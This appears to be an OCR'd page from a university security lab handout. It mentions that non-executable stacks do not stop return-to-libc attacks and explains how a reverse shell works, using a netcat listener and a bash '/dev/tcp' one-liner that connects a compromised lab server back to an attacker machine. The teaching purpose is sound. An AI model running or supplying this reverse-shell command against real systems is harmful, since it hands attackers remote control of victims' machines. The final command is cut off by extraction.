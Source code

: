 Defeating the non-executable stack countermeasure. It should be noted that non-executable stack only
makes it impossible to run shellcode on the stack, but it does not prevent buffer-overflow attacks, because
there are other ways to run malicious code after exploiting a buffer-overflow vulnerability. Thereturn-to-
libcattack is an example. We have designed a separate lab for that attack. If you are interested, please see
our Return-to-Libc Attack Lab for details.


## 10 Guidelines on Reverse Shell

The key idea of reverse shell is to redirect its standard input, output, and error devices to a network connec-
tion, so the shell gets its input from the connection, and prints out its output also to the connection. At the
other end of the connection is a program run by the attacker; the program simply displays whatever comes
from the shell at the other end, and sends whatever is typed by the attacker to the shell, over the network
connection.
A commonly used program by attackers isnetcat, which, if running with the"-l"option, becomes
a TCP server that listens for a connection on the specified port. This server program basically prints out
whatever is sent by the client, and sends to the client whatever is typed by the user running the server. In the
following experiment,netcat(ncfor short) is used to listen for a connection on port 9090 (let us focus
only on the first line).

Attacker(10.0.2.6):$ nc -nv -l 9090 Ÿ **Waiting for reverse shell**
Listening on 0.0.0.0 9090
Connection received on 10.0.2.5 39452
Server(10.0.2.5):$ Ÿ **Reverse shell from 10.0.2.5.**
Server(10.0.2.5):$ ifconfig
ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet **10.0.2.5** netmask 255.255.255.0 broadcast 10.0.2.
...

The abovenccommand will block, waiting for a connection. We now directly run the following bash
program on the Server machine (10.0.2.5) to emulate what attackers would run after compromising the
server via the Shellshock attack. This bash command will trigger a TCP connection to the attacker machine’s
port 9090, and a reverse shell will be created. We can see the shell prompt from the above result, indicating
that the shell is running on the Server machine; we can type theifconfigcommand to verify that the IP
address is indeed10.0.2.5, the one belonging to the Server machine. Here is the bash command:

Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&
